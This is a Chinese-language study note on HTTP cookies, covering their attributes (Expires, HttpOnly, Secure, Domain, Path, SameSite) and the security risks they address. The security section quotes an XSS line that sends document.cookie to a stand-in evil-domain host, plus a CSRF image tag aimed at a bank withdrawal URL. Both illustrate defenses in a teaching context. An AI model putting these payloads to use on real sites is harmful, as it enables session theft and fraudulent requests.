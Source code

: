 ## http cookies

> 作用就是判断多个请求是否来自同一个浏览器【一个用户】

cookie是用到的几个方面:

+ 会话状态管理，用户的登陆状态、购物车、游戏分数等
+ 个性化设置，根据cookie设置主题
+ 分析用户的行为

cookie的本身特点:

+ 服务器指定cookie，随着每次的请求被携带上

### 1-如何创建cookie

服务端使用响应头中的`Set-Cookie`字段

### 2-如何定义cookie的声明周期

两种方式

+ 会话，不指定过期时间`Expires`或者有效期`Max-age`，关闭浏览器cookie就失效了，但是有些浏览器有恢复回话功能，导致cookie的生命周期无线延长
+ 持久性，设置过期时间`Expires`或者有效期`Max-age`

```http
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

> cookie的过期时间只跟服务端有关系

### 3-如何限制cookie的访问

+ `HttpOnly`，cookie在客户端只读
+ `Secure`,  cookie只能被https协议的请求携带发送给服务端，可以预防中间人攻击，cookie被https协议加密了，不能读取

> 注意:  `Secure`只能在https的网站中使用

js脚本中的`document.cookie`无法访问`HttpOnly`属性的cookie，可以预防跨站脚本攻击

```http
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

### 4-如何控制cookie的作用域

> 主要用到的是Domain和Path两个标识，即允许哪些url携带cookie

#### Domain

指定了哪些主机可以接受cookie，默认值是origin，不包含子域名，如果指定了，cookie在子域名中也可以使用

例如: Domain=mozilla.org，则cookie也可以在developer.mozilla.org

#### Path

指定了主机下的哪些路径可以接受cookie

例如，设置 `Path=/docs`，则以下地址都会匹配：

+ /docs
+ /docs/Web
+ /docs/Web/HTTP

#### SameSite属性

> 用来限制第三方cookie，在当前网站使用其他网站的cookie【第三方cookie】，从而减少安全风险

+ Strict 完全禁止访问第三方cookie

  ```http
  Set-Cookie: CookieName=CookieValue; SameSite=Strict;
  ```

  当前网页有一个github连接，用户点击跳转，跳转过去总是为登陆状态

+ lax get请求除外

  ```http
  Set-Cookie: CookieName=CookieValue; SameSite=Lax;
  ```

  - a连接
  - link预加载
  - get表单

+ None

  ```http
  Set-Cookie: widget_session=abc123; SameSite=None; Secure
  ```

  必须是https网站

## 安全

### xss 跨站脚本攻击

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

解决方式: HttpOnly

### csrf跨站请求攻击和用户跟踪

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

打开这个图片，如果之前登陆过你的银行账户，cookies的是有效的，

```html
<img src="facebook.com" style="visibility:hidden;">
```

faceBook在第三方网站中插入了张图片，浏览器在加载这个图片的时候，就会想faceBook发出呆cookie的请求，从而faceBook就知道你是谁，访问了什么网站[**referer**: http://www.ruanyifeng.com/]





